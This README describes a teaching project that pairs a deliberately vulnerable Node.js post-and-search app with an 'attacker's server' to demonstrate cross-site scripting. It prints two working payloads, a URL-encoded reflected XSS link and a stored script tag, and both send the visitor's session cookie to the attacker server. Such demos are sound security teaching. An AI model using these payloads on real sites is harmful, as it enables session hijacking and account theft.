

# XSS Demo
A simple web application to demonstrate reflected and stored cross-site scripting.



### Requirements
- [Node.js](https://nodejs.org/en/download/)
- [npm](https://www.npmjs.com/) (comes with Node.js)

### Installation
```bash
git clone https://github.com/nicwoj/csci-xss-demo.git
cd csci-xss-demo
npm install
```

### Running the project
Start the vulnerable web app (http://localhost:3001/).
```bash
node index.js
```

Start the attacker's server.
```bash
cd attack-server
node index.js
```

### Adding a post
To create a new post, input a title and body under **Make a post** and click the **Post** button. 
New posts are added to the bottom of the **View previous posts** list.

### Searching
To search through existing posts, input a search query under **Search** and click the **Search** button. 
The search is case sensitive and looks for an exact match within each post's title and body.
Search queries can also be entered using http://localhost:3001/?search=.

### Clearing existing posts
Posts can be cleared by clicking the transparent **Clear** button in the top left corner of the page.

### Toggling input encoding
Input is encoded when the toggle switch in the top right corner of the page is turned on. 
Its state is saved when the page is refreshed.

## Reflected XSS Example
The following URL can be delivered to a target to execute a reflected cross-site scripting attack:
```
http://localhost:3001/?search=%3Cimg%20src%3D%22x%22%20onerror%3D%22var%20img%20%3D%20document.createElement(%27img%27)%3B%20img.src%20%3D%20%27http%3A%2F%2Flocalhost%3A3000%2F%3Fdata%3D%27%20%2B%20document.cookie%3B%20document.querySelector(%27body%27).appendChild(img)%3B%22%3E
```
The target's session cookie is expected to appear within the attacker's console window when the URL is visited.

## Stored XSS Example
The following script can be posted by the attacker to execute a stored cross-site scripting attack:
```html
<script>new Image().src='http://localhost:3000/?data='+document.cookie</script>
```
The target's session cookie is expected to appear within the attacker's console window each time the page is loaded.

